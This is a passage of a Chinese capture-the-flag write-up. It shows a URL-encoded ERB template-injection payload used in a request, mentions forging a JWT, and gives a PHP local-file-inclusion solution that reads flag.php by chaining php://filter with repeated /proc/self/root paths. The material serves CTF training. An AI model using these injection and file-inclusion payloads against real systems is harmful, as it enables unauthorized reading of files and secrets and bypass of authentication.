 ```
<%=$'%>
```

注意 urlencode

```
/work?name=%3c%25%3d%24%27%25%3e&do=%3c%25%3d%24%27%25%3e+is+working&SECRET=x
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211112159196.png)

之后就是常规伪造 jwt

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211112206052.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211112206451.png)

## [WMCTF2020]Make PHP Great Again

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

利用 /proc 目录绕过包含限制

[https://www.anquanke.com/post/id/213235](https://www.anquanke.com/post/id/213235)

```
http://b6e240d9-990d-40f7-a32a-34c0d0e150a7.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```
